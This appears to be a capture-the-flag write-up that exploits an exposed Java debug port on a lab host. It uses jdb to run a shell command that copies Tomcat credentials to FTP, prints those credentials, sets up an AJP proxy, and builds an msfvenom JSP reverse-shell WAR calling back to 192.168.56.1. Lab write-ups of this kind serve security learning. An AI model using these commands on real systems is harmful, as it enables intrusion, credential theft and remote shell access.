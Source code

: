 ## Exploit

Copy the file _/etc/tomcat/tomcat-users.xml_ to _/var/ftp/pub/_

	$ jdb -attach 192.168.56.6:9001
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Set uncaught java.lang.Throwable
	Set deferred uncaught java.lang.Throwable
	Initializing jdb ...
	> threads
	Group system:
	  (java.lang.ref.Reference$ReferenceHandler)0x19e Reference Handler cond. waiting
	  (java.lang.ref.Finalizer$FinalizerThread)0x19f  Finalizer         cond. waiting
	  (java.lang.Thread)0x1a0                         Signal Dispatcher running
	Group main:
	  (java.lang.Thread)0x1                           main              sleeping
	> interrupt 0x1
	> 
	Exception occurred: java.lang.InterruptedException (uncaught)"thread=main", java.lang.Thread.sleep(), line=-1 bci=-1

	main[1] print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine())
	...
	main[1] exit

tomcat-users.xml

	user username="sl33py" password="Gu3SSmYStR0NgPa$sw0rD!" roles="tomcat,manager-gui,admin-gui,admin,manager-jmx,admin-script,manager,manager-script,manager-status"/>


## Install Apache Tomcat Proxy

    apt-get install libapache2-mod-jk -y
    sed -i 's#JkWorkersFile /etc/libapache2-mod-jk/workers.properties#JkWorkersFile /etc/apache2/workers.properties#g' /etc/apache2/mods-enabled/jk.conf
    cp /etc/libapache2-mod-jk/workers.properties /etc/apache2/
    sed -i 's#worker.ajp13_worker.host=localhost#worker.ajp13_worker.host=192.168.30.146#g' /etc/apache2/workers.properties
    sed  -i '/\Host\>/i JKMount /* ajp13_worker' /etc/apache2/sites-enabled/000-default.conf
    a2enmod proxy_http proxy_ajp
    service apache2 restart


## Connect to Tomcat Web Application Manager with sl33py / Gu3SSmYStR0NgPa$sw0rD!

### Generate shell

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
